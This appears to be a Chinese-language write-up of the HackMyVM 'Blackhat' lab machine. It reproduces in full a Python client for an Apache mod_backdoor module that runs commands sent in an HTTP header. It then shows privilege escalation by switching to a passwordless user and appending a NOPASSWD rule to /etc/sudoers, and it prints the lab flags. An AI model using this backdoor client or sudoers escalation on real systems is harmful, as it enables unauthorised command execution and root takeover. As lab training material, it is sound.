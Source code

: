 # Blackhat

2025.02.16 https://hackmyvm.eu/machines/machine.php?vm=Blackhat

[video](https://www.bilibili.com/video/BV1biAGemEpd/?spm_id_from=333.1387.homepage.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
80/tcp open  http
```

只有一个 web，gobuster 扫描看到 2 个文件：

```
http://192.168.5.40/image.jpg            (Status: 200) [Size: 13314]
http://192.168.5.40/phpinfo.php          (Status: 200) [Size: 69318]
```

phpinfo.php 中源码没有隐藏信息，在看 php 的配置信息时发现 Loaded Modules 中有一个 mod_backdoor 模块，搜索一下看看时什么不常见的模块，经过搜索，发现了一个可以进行漏洞利用的 exp：

https://github.com/WangYihang/Apache-HTTP-Server-Module-Backdoor/blob/main/exploit.py

```python
import requests
import sys


def exploit(host, port, command):
    headers = {"Backdoor": command}
    url = f"http://{host}:{port}/"
    response = requests.get(url, headers=headers)
    text = response.text
    print(text)


def main():
    if len(sys.argv) != 3:
        print("Usage : ")
        print("\tpython %s [HOST] [PORT]" % (sys.argv[0]))
        exit(1)
    host = sys.argv[1]
    port = int(sys.argv[2])
    while True:
        command = input("$ ")
        if command == "exit":
            break
        exploit(host, port, command)


if __name__ == "__main__":
    main()
```

执行后，得到了 shell 执行权限：

```
python3 exploit.py 192.168.5.40 80
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

进行系统枚举，linpeas 没发现其他有用信息，发现 /etc/sudoers 文件设置过 acl：

```
getfacl -R -s -p / 2>/dev/null

# file: //etc/sudoers
# owner: root
# group: root
user::r--
user:darkdante:rw-
group::r--
mask::rw-
other::---
```

发现 darkdante 用户可以对 sudoers 文件修改，同时其他什么信息都没有，只有尝试 su 切换到 darkdante 看看能不能行，然后 darkdante 用户是空密码就可以切换，所以先得到了 user flag：

```
su darkdante
darkdante@blackhat:~$ cat user.txt
89fac491dc9bdc5fc4e3595dd396fb11
```

然后直接写权限到 sudoers 文件中：

```
darkdante@blackhat:~$ echo 'darkdante ALL=(ALL)NOPASSWD:ALL' >> /etc/sudoers
darkdante@blackhat:~$ sudo su
root@blackhat:/home/darkdante# cd /root
root@blackhat:~# ls
root.txt
root@blackhat:~# cat root.txt
8cc6110bc1a0607015c354a459468442
```

最后回顾下 /etc/shadow 发现 darkdante 用户的第二个字段为空，根本就没有设置密码，`darkdante::19307:0:99999:7:::`。
